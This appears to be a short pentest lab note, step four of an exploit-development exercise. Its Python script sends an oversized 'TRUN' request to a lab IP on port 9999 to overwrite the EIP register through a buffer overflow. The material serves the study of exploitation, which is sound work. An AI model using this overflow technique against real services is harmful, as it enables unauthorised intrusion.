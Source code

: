 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

4-Overwriting the EIP

~~~python
#!/usr/bin/python
import sys, socket

verifyeip = "A" * 2003 + "B" * 4

try:
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("192.168.253.129",9999))
	s.send(('TRUN /.:/' + verifyeip))
	s.close()

except:
	print "Error Connecting to Server..."
	sys.exit()
~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
